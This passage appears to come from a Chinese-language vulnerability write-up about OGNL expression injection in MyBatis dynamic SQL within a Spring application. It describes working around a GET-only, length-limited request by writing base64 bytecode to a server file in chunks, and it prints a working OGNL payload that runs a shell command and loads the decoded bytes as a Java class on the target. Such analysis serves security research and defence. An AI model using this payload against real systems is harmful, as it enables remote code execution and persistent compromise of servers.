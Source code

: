 但当时面临的实际情况是只支持GET请求，因为URL是有长度限制的，所以直接使用上面的方法也是不可行的，因为没法分段，只能一次性发送请求。最后的解决方法就是再绕一下，先把字节码的base64编码字符串先分段写入服务器文件，然后再去读取从而缩减payload的长度。  

```plain
${@org.springframework.cglib.core.ReflectUtils@defineClass('xxxx', @org.springframework.util.Base64Utils@decodeFromString(new String(@org.springframework.util.StreamUtils@copyToByteArray(@java.lang.Runtime@getRuntime().exec("cat /tmp/a").getInputStream())).replace("\n","")), new javax.management.loading.MLet(new java.net.URL[0],@java.lang.Thread@currentThread().getContextClassLoader()))}
```

![图片](assets/1706513706-21c580189ef7f5dd48299603792540a7.png)

  

![图片](assets/1706513706-5978ee2b8d006c656dd91fee433f7fdf.png)

  

漏洞原理

Mybatis3是支持动态SQL的，根据动态SQL的描述得知是支持使用OGNL表达式的。其中Mybatis的if、choose、when、otherwise、trim、where、set、foreach等元素都支持动态SQL。

![图片](assets/1706513706-1dfbaf1e5c4834444474085572069d1e.png)

  
